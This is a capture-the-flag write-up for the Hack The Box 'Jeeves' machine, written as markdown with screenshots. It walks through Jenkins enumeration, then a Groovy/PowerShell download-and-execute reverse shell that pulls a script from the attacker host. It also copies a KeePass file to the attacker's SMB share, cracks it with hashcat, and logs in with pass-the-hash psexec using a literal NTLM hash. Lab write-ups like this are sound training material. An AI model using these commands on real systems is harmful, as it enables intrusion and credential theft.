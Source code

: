 # Jeeves Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA jeeves 10.10.10.63 -T4``

``80/tcp    open  http         Microsoft IIS httpd 10.0``

``135/tcp   open  msrpc        Microsoft Windows RPC``

``445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)``

``50000/tcp open  http         Jetty 9.4.z-SNAPSHOT``

# ${{\color{purple}Initial Foothold}}\ $

### After a long enumeration I found a directory on the port 50000 :

``gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30``

![image](https://user-images.githubusercontent.com/123066149/221349079-693bf87d-ce77-42a4-9202-9c5870f16c3b.png)

### And finally it's a jenkins server on this port :

### I made the following compromise after a long enumeration of the application :

![1](https://user-images.githubusercontent.com/123066149/221349399-6e26767c-4b25-4c35-8bb4-4c6790419b08.PNG)

![2](https://user-images.githubusercontent.com/123066149/221349403-c52a5a33-8b6b-424e-b505-3799e021f3e7.PNG)

![3](https://user-images.githubusercontent.com/123066149/221349405-39f5cdac-29cd-4fad-b038-cc229889d3db.PNG)

![4](https://user-images.githubusercontent.com/123066149/221349410-be77cc48-4028-4243-be5c-6ddf64e313ee.PNG)

# ${{\color{purple}Exploitation}}\ $

### I used a rev shell powershell to take control of the server :

``println "powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')".execute().text``

![image](https://user-images.githubusercontent.com/123066149/221349919-b08817a5-18a0-4eb7-8b91-e40a7951a69f.png)

![image](https://user-images.githubusercontent.com/123066149/221349939-b89184b9-59e7-4359-b400-dd4c66c8d1a4.png)

# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/221349980-62a6e845-6120-4764-a519-f86357e2cfe2.png)

### SMBserver on kali machine :

````/usr/bin/impacket-smbserver kali .``

![image](https://user-images.githubusercontent.com/123066149/221350050-1069ded2-46ff-4bf3-8532-6e21b7196467.png)

### mount share on windows machine :

``New-PSDrive -Name "sophie" -PSProvider "FileSystem" -Root "\\10.10.16.5\kali"``

``cd sophie:``

``cp C:\Users\kohsuke\Documents\CEH.kdbx .``

![5](https://user-images.githubusercontent.com/123066149/221350106-9358a2d7-d76f-4c1d-ade3-b3dd7849ad1d.PNG)

### Generate the hash of this file :

``keepass2john CEH.kdbx``

![image](https://user-images.githubusercontent.com/123066149/221350158-dcc7110f-8e0c-4e31-afea-ded436ef0ae5.png)

![image](https://user-images.githubusercontent.com/123066149/221350172-25786dd9-2d05-4cba-84c5-b8a39a82847f.png)

![image](https://user-images.githubusercontent.com/123066149/221350203-affa1903-fc80-47cf-bfa3-ae865ec83c7f.png)

### Finds the password with hashcat :

``hashcat -m 13400 hash.txt /usr/share/wordlists/rockyou.txt``

![image](https://user-images.githubusercontent.com/123066149/221350242-2a736320-afce-4401-a245-bd09e1496b46.png)

### Open the kdbx file with keepass :

![image](https://user-images.githubusercontent.com/123066149/221350296-925eda47-478c-48a4-a404-97f263246747.png)

### I tried the admin password but without success and with the hash of the backup account and we are admin :

``/usr/bin/impacket-psexec  administrator@10.10.10.63``

``/usr/bin/impacket-psexec  administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``

![image](https://user-images.githubusercontent.com/123066149/221350360-0b5fb083-eb17-4532-892c-511109165051.png)


### Last difficulty display the root password  :

``powershell (Get-Content hm.txt -Stream root.txt)``

![image](https://user-images.githubusercontent.com/123066149/221350462-3f880fc4-b85d-430d-a022-c93609025ea5.png)


# ${{\color{purple}Points of Improvement}}\ $


